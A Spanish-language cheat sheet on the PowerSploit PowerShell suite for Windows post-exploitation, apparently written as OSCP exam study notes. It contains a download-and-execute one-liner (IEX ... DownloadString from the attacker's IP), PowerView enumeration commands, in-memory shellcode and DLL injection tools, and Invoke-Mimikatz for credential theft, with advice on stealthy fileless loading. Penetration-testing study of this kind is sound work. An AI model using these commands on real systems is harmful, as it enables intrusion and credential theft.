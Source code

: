 PowerSploit es una suite de scripts en PowerShell diseñada para post-explotación en entornos Windows. Aunque no se permite abusar de ella en OSCP, muchas de sus funciones son extremadamente útiles si ya tienes acceso a una máquina (por Evil-WinRM, reverse shell o similar).

---

## Instalación

Desde Kali:
```bash
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd PowerSploit
```
Puedes servir los scripts por HTTP:
```bash
sudo python3 -m http.server 80
```

---

## Uso General

Cargar scripts en memoria desde PowerShell:
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<tu_ip>/PowerSploit/Recon/PowerView.ps1')
```
O bien subir el script y ejecutarlo:
```powershell
. .\PowerView.ps1
```

---

## Módulos más útiles en OSCP

### 1. **Recon** — PowerView
- Enumerar usuarios, grupos, ACLs, sesiones RDP, GPOs, etc.
```powershell
Get-NetUser
Get-NetGroup
Get-NetComputer
```

### 2. **CodeExecution**
- `Invoke-Shellcode`: ejecución en memoria
- `Invoke-ReflectivePEInjection`: inyectar DLLs en memoria

### 3. **Privesc**
- `Invoke-AllChecks`: (similar a winPEAS en PS)
- `Invoke-PrivescAudit`

### 4. **Exfiltration**
- `Invoke-Mimikatz` (no permitido en OSCP, pero educativo)

---

## Casos de Uso OSCP

- Recolección de info desde sistemas comprometidos
- Enumeración de dominio
- Post-explotación sigilosa (sin drop de binarios)

---

## Buenas Prácticas

- Cargar módulos en memoria con `IEX`, sin escribir a disco
- Usar solo los módulos permitidos en el examen
- Documentar los comandos ejecutados para mantener trazabilidad

---
